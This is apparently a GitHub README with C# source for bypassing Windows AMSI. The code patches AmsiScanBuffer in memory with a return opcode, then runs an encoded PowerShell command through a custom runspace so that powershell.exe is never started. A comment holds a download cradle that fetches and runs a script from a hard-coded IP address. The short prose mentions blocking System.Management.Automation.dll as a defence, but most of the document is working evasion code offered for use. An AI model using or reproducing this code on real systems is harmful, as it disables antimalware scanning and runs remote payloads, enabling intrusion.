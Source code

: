
The AMSI Bypassing along with System.Management.Automation.Runspaces which doesn't requeire the powershell.exe to execute powershell commands.
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe. in conclusion if someone had asked me that how Do we prevent from powershell base attack.I woulnd have recommend blocking System.Management.Automation.dll like I mention above The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command.


**This AMSI Patching Techniquie is heavy reliance on rastamouse's Techniques**


```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Management.Automation;
using System.Text;

namespace AmsiScan
{
    class Program
    {
        static void Main(string[] args)
        {

            var AmsiDLL = LoadLibrary("amsi.dll"); // Load the amsi.dll  to obtain The AmsiScanBuffer Address
            var asbAddress = GetProcAddress(AmsiDLL, "AmsiScanBuffer");

            var ret = new byte[] { 0xc3 }; //patch opcode
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, 0x40, out uint oldProtect); //Pointer changing the AmsiScanBuffer memory protection
            Marshal.Copy(ret, 0, asbAddress, ret.Length);
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, oldProtect, out uint _);
            Execution.MeMe();

        }

        class Execution

        {
            //$OriginalCommand = "iex (New-Object Net.WebClient).DownloadString('https://54.18.24.199:7775/download/Bagan.ps1')"
            //[System.Convert]::ToBase64String([System.Text.Encoding]::unicode.GetBytes($OriginalCommand))
            public static string Command = System.Text.Encoding.UTF8.GetString(System.Convert.FromBase64String(@"Base64 Data"));
            public static void MeMe()
            {
                InitialSessionState p = InitialSessionState.CreateDefault();
                Runspace rspace = RunspaceFactory.CreateRunspace(p);
                rspace.Open();
                PowerShell Evil = PowerShell.Create();
                Evil.Runspace = rspace;
                Evil.AddScript(Command);
                Evil.Invoke();
                rspace.Close();
            }
        }

        //Importing The Necessary WInAPI to Load the LoadLibrary other related to system function.

        [DllImport("kernel32.dll")]
        public static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    }
}

```
